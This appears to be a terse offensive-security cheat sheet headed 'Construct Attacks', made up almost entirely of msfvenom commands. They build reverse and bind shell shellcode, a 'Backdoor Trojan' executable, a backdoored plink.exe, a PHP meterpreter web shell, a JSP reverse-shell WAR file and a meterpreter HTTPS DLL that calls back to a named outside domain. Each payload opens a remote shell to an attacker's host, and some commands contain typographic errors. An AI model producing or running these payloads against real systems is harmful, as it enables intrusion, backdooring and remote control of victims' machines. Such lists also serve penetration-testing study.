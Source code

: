 ## Construct Attacks

msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai generate shellcode

msfvenom -p linux/x86/shell_bind_tcp LPORT=443 -f c -a x86 --platform linux -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai generate shellcode

Backdoor Trojan
msfvenom –p windows/shell_reverse_tcp LHOST=$ip2 –f exe > malware.exe && chmod +x malware.exe

Staged Linux Binary
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$ip LPORT=443 -f elf --platform linux -a x86 > /var/www/html/reverse_shell_tcp

PHP Web Shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=443 -e php/base64 -f raw > shell.php && add '<?php *** ?>'

Backdoor Executable
msfvenom -a x86 --platform windows -x /var/www/html/plink.exe -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f exe -o bd.exe

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=443 -f war > r-jsp-shell-443.war

msfvenom -p windows/x64/meterpreter_reverse_https LHOST=unioncentralorchids.com LPORT=443 -f dll